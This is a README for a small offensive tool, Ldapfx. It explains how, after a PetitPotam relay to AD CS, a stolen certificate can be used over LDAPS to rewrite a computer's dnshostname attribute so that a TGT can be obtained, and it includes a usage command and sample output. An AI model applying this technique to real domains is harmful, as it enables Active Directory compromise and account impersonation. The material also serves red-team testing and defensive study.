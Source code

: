 # Ldapfx

Small tool created due to some edge cases when trying to exploit the relay using PetitPotam to AD CS. 

When you successfuly retrieve a .pfx certificate if the **SAN within the X509** differs from the **dnshostname** attribute of your target you won't be able to retrieve a TGT and have the following error :
```
KDC_ERR_CLIENT_NAME_MISMATCH (ERR 75)
```
Here is an example of this edge case :
- FQDN according to the domain : **wks2.test.local**
- FQDN which is stored within the dnshostname attribute: **wks2.modifyme.test.local**

This is **NOT related to a child domain** but just a custom **dnshostname** value. It has to be noted that a **computer account can modify the dnshostname** attribute as long as the modification stick to the following value :
- \<computer name>.\<domain name>

Once you've modified the **dnshostname** attribute you'll have to request a **new certificate** and only then you'll be able to ask for a TGT.
# Usage 
```
LDAPfx.exe DC1:636 wks2_cert.pfx "CN=WKS2,CN=Computers,DC=test,DC=local" "wks2.test.local"
[*] Adding certificate to the LDAPConnection
[*] Requesting LDAPS using the certificate
[*] Current LDAP user : u:TEST\Administrator
[*] Default naming context : DC=test,DC=local
[*] Current dnshostname attribute : wks2.modifyme.test.local
[*] Did modifying the attribute succeed ? : Success
[*] Current dnshostname attribute : wks2.test.local
```

Author : @Ottersec & @dav1dstr33t
